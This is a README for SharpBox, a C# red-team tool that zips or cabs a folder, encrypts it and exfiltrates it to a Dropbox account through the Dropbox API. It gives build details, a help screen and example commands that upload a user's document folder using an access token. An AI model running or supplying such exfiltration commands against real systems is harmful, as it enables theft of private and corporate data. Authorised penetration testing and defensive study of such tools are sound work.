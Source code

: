 # SharpBox
SharpBox is a C# tool for compressing, encrypting, and exfiltrating data to DropBox using the DropBox API. 

## Compiling
Target Framework: NET3.5

The libraries added via NuGet for this project were:

**-CommandLineParser.1.9.71**

**-Costura.Fody.1.6.2**

**-DotNetZip.1.11.0**

**-Fody.2.1.2**

**-MSFTCompressionCab.1.0.0**

## Usage
Log into your DropBox account and head over to the [DropBox developer API explorer](https://dropbox.github.io/dropbox-api-v2-explorer/#auth_token/from_oauth1) page and get an oauth access token by clicking "Get Token".
These access tokens do not expire, but you can revoke them.  So I would recommend revoking tokens after being used on engagments.

Example:

```
SharpBox.exe -f "C:\Users\JasonF\Documents\management-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -c "cab" -p "SecretPassword123!"
```

SharpBox can Cab or Zip a folder of items.  Cabbing tends to compress into smaller files than zip, but has a maximum limit of 2GB.  The compressed file is then encrypted and uploaded to dropbox.

```
SharpBox 1.0.0.0
Copyright c  2018

  -f, --path           Required. path to the folder you wish to compress the
                       contents of

  -o, --OutFile        Name of the compressed file

  -t, --dbxToken       Dropbox Access Token

  -h, --dbxPath        (Default: /test/data) path to dbx folder

  -c, --compression    this option lets you choose to zip or cab the folder

  -d, --decrypt        (Default: False) Choose this to decrypt a zip or cabbed
                       file previously encrypted by this tool.  Requires
                       original password argument.

  -p, --password       Required. Password to encrypt or decrypt a zipped or
                       cabbed file.

  --help               Display this help screen.
  ```
  
  Passwords must be >= 5 characters. 
  
  Once the compressed/encrypted file is downloaded from DropBox, you can use this tool to decrypt it as well. 
  
  Example: 
  
  ```
  SharpBox.exe -f "C:\Users\evilDude\Desktop\data" -o "decrypted-data.cab" -p "SecretPassword123!" -d
  ```
  
  
